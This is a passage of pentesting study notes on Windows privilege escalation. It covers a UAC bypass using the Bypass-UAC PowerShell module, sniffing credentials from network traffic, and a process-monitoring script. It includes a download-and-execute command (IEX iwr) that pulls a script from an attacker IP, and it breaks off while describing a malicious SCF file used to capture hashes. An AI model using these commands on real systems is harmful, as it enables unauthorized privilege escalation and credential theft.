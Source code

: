         * even with admin user, we cannot access Administrator directory due to UAC
        * we can use [Bypass-UAC](https://github.com/FuzzySecurity/PowerShell-Suite/tree/master/Bypass-UAC) scripts:

            ```ps
            Import-Module .\Bypass-UAC.ps1

            Bypass-UAC -Method UacMethodSysprep
            ```
        
        * this launches a new PS window with higher privileges

## Additional Techniques

* Interacting with users:

    * traffic capture:

        * if Wireshark or ```tcpdump``` is installed, unprivileged users can capture network traffic
        * we can also use tools like [net-creds](https://github.com/DanMcInerney/net-creds) on attacker machine to sniff passwords & hashes from a live interface or a pcap
    
    * process command lines:

        * check for scheduled tasks or processes being executed which pass creds on CLI
        * we can use ```procmon``` to monitor the target:

            ```ps
            # process monitor script
            while($true)
            {

            $process = Get-WmiObject Win32_Process | Select-Object CommandLine
            Start-Sleep 1
            $process2 = Get-WmiObject Win32_Process | Select-Object CommandLine
            Compare-Object -ReferenceObject $process -DifferenceObject $process2

            }
            ```

            ```ps
            # fetch and execute procmon script
            IEX (iwr 'http://10.10.13.14/procmon.ps1')
            ```
    
    * vulnerable services:

        * check for vulnerable services or apps that can be used for privesc; an example is [CVE-2019-15752](https://medium.com/@morgan.henry.roman/elevation-of-privilege-in-docker-for-windows-2fd8450b478e) for Docker Desktop app
    
    * SCF on a fileshare:

        * SCF (shell command file) is used by Windows Explorer to navigate directories and files
        * it can be manipulated to have the icon file location point to a specific UNC path and launch it, when the folder with the '.scf' file is accessed
        * create a file with a common, benign name like '@inventory.scf' ('@' so that it is at top of directory and executed as soon as the user accesses the share/folder) - the icon path will be pointing to the attacker:
